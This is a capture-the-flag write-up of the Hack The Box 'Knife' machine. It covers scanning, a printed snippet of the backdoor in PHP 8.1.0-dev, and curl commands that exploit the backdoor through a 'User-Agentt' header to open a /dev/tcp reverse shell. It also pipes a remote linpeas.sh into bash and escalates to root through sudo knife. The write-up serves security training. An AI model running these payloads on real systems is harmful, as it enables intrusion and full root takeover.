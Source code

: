 ```yaml
---
title: Knife Machine HTB
excerpt:
  Knife is an easy difficulty Linux machine that features an application which
  is running on a backdoored version of PHP. This vulnerability is leveraged to obtain
  the foothold on the server. A sudo misconfiguration is then exploited to gain a
  root shell.
coverImage: '/assets/blog/knife/knife.jpeg'
date: 2021-08-16T05:35:07.322Z
author:
  name: W0lf15
  picture: '/assets/blog/authors/w0lf15.png'
ogImage:
  url: '/assets/blog/knife/knife.jpeg'
difficulty: easy
active: false
---
```


## Skills Required

- Enumeration
- Basic Knowledge of Linux
- OWASP Top 10

## Skills Learned

- Web Exploitation
- Knife Sudo Exploitation

## Enumeration

```shell
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.242 | grep ^[0-9] | cut -d '/' -f 1 | tr
'\n' ',' | sed s/,$//)
nmap -p$ports -sV -sC 10.10.10.242
```

Nmap scan reveals that the target server has two ports open: 22 and 80.

Apache is hosting an Emergent Medical Idea application. There's nothing interesting in this application.

### FFUF

Let's enumerate files and folders using `ffuf` utility.

Nothing interesting from the results. We send a cURL request to `index.php` page and observe the
response headers.

X-Powered-By header reveals that the application is using PHP/8.1.0-dev version. Searching
vulnerabilities related to this version reveals that it has a known RCE <a href="https://www.exploit-db.com/exploits/49933">exploit</a>.

```php
{
 zval zoh;
 php_output_handler *h;
 zval *enc;
 if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY ||
zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
 (enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]),
"HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
 convert_to_string(enc);
 if (strstr(Z_STRVAL_P(enc), "zerodium")) {
 zend_try {
 zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid
2017");
 } zend_end_try();
 }
 }
 switch (ZLIBG(output_compression)) {
 case 0:
```

The code checks for the first occurance of zerodium string in User-Agentt request header. If found, it
then executes the code after that string.

```php
zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
```

```shell
curl http://10.10.10.242/index.php -H 'User-Agentt: zerodiumsystem("curl
10.10.14.177");'
```

After successfully receive the request we fire up a listener on port 1234 and send below request to obtain
the reverse shell.

```shell
curl http://10.10.10.242/index.php -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i
&>/dev/tcp/10.10.14.177/1234 0>&1 '\");"
```

Let's setup a listener on port 80 and verify this by sending a cURL request to our server.

This is indeed successful and a shell as james is received.

## Privilege Escalation

Having foothold on the server, it is possible to enumerate the different ways to escalate privileges. We
enumerate the server using scripts such as <a href="https://github.com/rebootuser/LinEnum">LinEnum.sh</a> or <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">linPEAS.sh.</a> We download the script and copy it to the apache web root path. Next, we use curl to transfer and execute the script.

```shell
curl 10.10.14.177/linpeas.sh|bash
```

Output shows that james is allowed to run knife as root. Knife tool provides an interface to manage Chef
automation server nodes, cookbooks, recipes and etc. Knife usage can be read from manpage. Some
examples shows that, it is possible to edit knife data bags using a text editor. We can try that.

```shell
sudo knife data bag create 1 2 -e vi
```

This opens up the vim editor. We type below in the editor to get a shell as root.

```shell
:!/bin/sh
```

This can also be achieved using knife exec sub-command. We can upgrade the shell to a fully interactive.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
fg
reset
xterm
```

Now it is possible to execute keyboard shortcuts in the shell session. Knife also provides an option exec to
execute ruby scripts. We issue the following command.

```shell
sudo knife exec
```

This opens up an interactive shell to execute the code. We type the code below and press CTRL D to run it.

```shell
exec "/bin/bash"
```

This is successful and a shell as root is obtained. Alternatively the following ways can also be used to obtain
a root shell.

```bash
sudo knife exec --exec "exec '/bin/sh -i'"
```

```bash
echo -n 'exec "/bin/bash -i"' > config.rb
sudo knife user list -c config.rb
```

```

```
